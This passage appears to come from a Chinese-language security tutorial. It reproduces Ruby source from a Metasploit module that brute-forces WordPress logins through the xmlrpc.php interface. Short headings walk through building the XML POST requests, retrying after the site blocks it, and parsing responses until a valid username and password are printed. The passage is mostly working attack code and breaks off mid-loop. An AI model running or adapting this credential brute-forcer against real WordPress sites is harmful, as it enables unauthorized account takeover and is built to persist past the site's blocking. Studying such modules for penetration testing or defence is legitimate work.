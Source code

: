 +   设置 HTTP 与 XML POST 请求

```
 #
  # Connection Setup
  #
  def send(xml)
    uri  = target_uri.path
    opts =
      {
        'method'  => 'POST',
        'uri'     => normalize_uri(uri, wordpress_url_xmlrpc),
        'data'    => xml,
        'ctype'   =>'text/xml'
      }
    client = Rex::Proto::Http::Client.new(rhost)
    client.connect
    req  = client.request_cgi(opts)
    res  = client.send_recv(req)

    if res && res.code != 200
      print_error('It seems you got blocked!')
      print_warning("I'll sleep for #{datastore['BLOCKEDWAIT']} minutes, then I'll try again. CTR+C to exit")
      sleep datastore['BLOCKEDWAIT'] * 60
    end
    @res = res
  end 
```

+   解析 XML 请求和响应

+   找到确切的正确凭证

+   检查是否被阻止

+   解析结果并找出哪个密码是正确的

```
 def run
    return if check_wpstatus.nil?

    usernames.each do |user|
      passfound = false

      print_status("Brute forcing user: #{user}")
      generate_xml(user).each do |xml|
        next if passfound == true

        send(xml)

        # Request Parser
        req_xml = Nokogiri::Slop xml
        # Response Parser
        res_xml = Nokogiri::Slop @res.to_s.scan(/<.*>/).join
        puts res_xml
        res_xml.search("methodResponse/params/param/value/array/data/value").each_with_index do |value, i|

          result =  value.at("struct/member/value/int")
          # If response error code doesn't not exist, then it's the correct credentials!
          if result.nil?
            user = req_xml.search("data/value/array/data")[i].value[0].text.strip
            pass = req_xml.search("data/value/array/data")[i].value[1].text.strip
            print_good("Credentials Found! #{user}:#{pass}")

            passfound = true
```